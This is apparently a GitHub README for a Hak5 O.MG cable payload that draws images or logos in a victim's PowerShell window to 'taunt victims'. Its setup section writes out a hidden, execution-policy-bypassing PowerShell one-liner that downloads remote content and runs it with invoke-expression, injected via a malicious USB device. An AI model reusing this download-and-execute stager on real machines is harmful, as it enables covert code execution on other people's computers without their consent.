![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-AcidBurn/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# OMG PS-Draw

A script used to generate and draw images in the Powershell Window, used to leave a signature or perhaps taunt victims

## Description

These two programs use two different method to draw out images in the Powershell Window. 
PS-Draw will convert an image you download into a BMP file estiamte the used colors based off the 16 available powershell colors 
then draw your image out in the powershell window. This process is not exact and needed testing of multiple images to find one that works well. 

PS-Custom-Draw generates images to be drawn in the Powershell Window based off pre-configured arrays I put together already included in the file itself. 
These images look significantly cleaner due to the fact they were drawn and coded specifically for this purpose.

## Getting Started

### Dependencies

* DropBox or another image hosting service - Your Shared link for the intended file
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in OMG Device
* Invoke-WebRequest will be used to download the image 

```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https:// < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```
* The image will be converted into a BMP file
* An algorithm will be used to find the closest matching colors available in the powershell window
* The image will be generated in the powershell window

This is an example of an image I used with the PS-Draw command 
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/Images/omg-ico.png)

This is how the iamge is interpreted and drawn out  
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/Images/PS-Draw.jpg)

* The PS-Custom-Draw operates a little differently 
* One of the preconfigured arrays is piped into the command to generate an image 
 
* "$col | PS-Draw"  - This first one will show the available colors to be used as seen below
 
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/Images/ps-colors.jpg)


* "$omg | PS-Draw"  - This will draw out the OMG logo as seen below
 
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/Images/ps-omg.jpg)


* "$hak5 | PS-Draw" - This will draw out the Hak5 logo as seen below
 
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/Images/ps-hak5.jpg)


<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  Project Link: [https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG-PS-Draw)
</p>


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">back to top</a>)</p>
